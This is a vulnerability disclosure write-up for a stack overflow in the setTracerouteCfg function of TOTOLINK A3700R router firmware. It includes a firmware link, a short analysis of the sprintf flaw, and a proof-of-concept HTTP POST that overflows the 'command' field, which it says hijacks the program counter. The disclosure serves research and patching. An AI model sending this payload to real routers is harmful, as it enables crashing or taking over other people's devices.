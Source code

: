 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

![image-20240104001414887](image/image-20240104001414887.png)

## Vulnerability details

setTracerouteCfg

![image-20240104160642668](image/image-20240104160642668.png)

`V6` is a variable on the stack, while `Var` is a user controllable variable. The sprintf function caused a stack overflow

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 70
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setTracerouteCfg",

"command":"a"*0x1000,

"num":"1"

}
```

The above figure shows the POC attack effect

![image-20240104160730146](image/image-20240104160730146.png)

As shown in the figure above, we can hijack PC registers.

![image-20240104160800829](image/image-20240104160800829.png)